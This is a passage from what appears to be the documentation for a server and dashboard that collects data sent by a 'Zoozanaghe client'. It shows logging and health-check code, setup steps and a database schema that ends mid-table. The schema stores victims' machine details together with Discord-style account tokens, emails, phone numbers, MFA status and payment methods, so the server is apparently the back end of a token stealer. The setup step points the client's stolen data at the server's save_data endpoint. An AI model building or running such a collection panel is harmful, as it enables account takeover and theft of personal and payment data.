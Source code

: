```python
```


## 📊 Monitoring and Logging
- 📝 Logging Configuration
```python
import logging
from logging.handlers import RotatingFileHandler

# Setup logging
handler = RotatingFileHandler('app.log', maxBytes=10000, backupCount=3)
handler.setLevel(logging.INFO)
app.logger.addHandler(handler)
```
- 🔍 Health Check Endpoint
```python
@app.route('/health')
def health_check():
    try:
        db = get_db()
        db.execute('SELECT 1')
        return jsonify({'status': 'healthy', 'database': 'connected'})
    except Exception as e:
        return jsonify({'status': 'unhealthy', 'error': str(e)}), 500
```

## 🌟 Getting Started

**1. Start the web server**
```
python app.py
```
**2. Configure Zoozanaghe client to send data**
  ```python
  # In your Zoozanaghe config
  "web_interface_url": "http://your-server:3000/save_data"
  ```
**3 .Access the dashboard**
Open http://localhost:3000 in your browser


- sql
    ```sql
    -- database/schema.sql
  CREATE TABLE IF NOT EXISTS systems (
      id INTEGER PRIMARY KEY AUTOINCREMENT,
      name TEXT NOT NULL,
      pc_name TEXT NOT NULL,
      os_info TEXT NOT NULL,
      timestamp DATETIME DEFAULT CURRENT_TIMESTAMP
  );
  
  CREATE TABLE IF NOT EXISTS tokens (
      id INTEGER PRIMARY KEY AUTOINCREMENT,
      system_id INTEGER NOT NULL,
      token TEXT NOT NULL,
      username TEXT,
      discriminator TEXT,
      user_id TEXT,
      email TEXT,
      phone TEXT,
      mfa_enabled BOOLEAN DEFAULT 0,
      nitro_type TEXT,
      payment_methods TEXT,
      avatar TEXT,